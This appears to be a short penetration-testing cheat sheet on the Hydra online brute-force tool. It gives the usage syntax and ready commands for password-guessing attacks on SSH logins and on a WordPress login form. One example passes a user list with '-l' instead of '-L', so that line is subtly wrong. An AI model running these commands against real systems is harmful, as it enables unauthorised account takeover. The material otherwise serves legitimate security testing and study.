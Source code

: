 title: Hydra

Unlike `john` or `hashcat` that crack passwords offline `hydra` is an online brute force tool

# Usage
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [service://server[:PORT][/OPT]]
```

`hydra` basic usage requires a username, password, target & protocol. As you can see from above you can specify files containing usernames and/or passwords. 

* Try to brute force user `bob` over `ssh`
```
hydra -l bob -P /path/to/word/list.txt target ssh
```

* Try to brute force a list of users using `summer2021 `
```
hydra -l users.txt -p summer2021 target ssh
```

* Try to brute force a list of users using a wordlist
```
hydra -L users.txt -P /path/to/word/list.txt target ssh
```

# Wordpress
To brute force `wordpress` with `hydra` we can use the below

```
hydra -l username -P /path/to/word/list.txt target -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```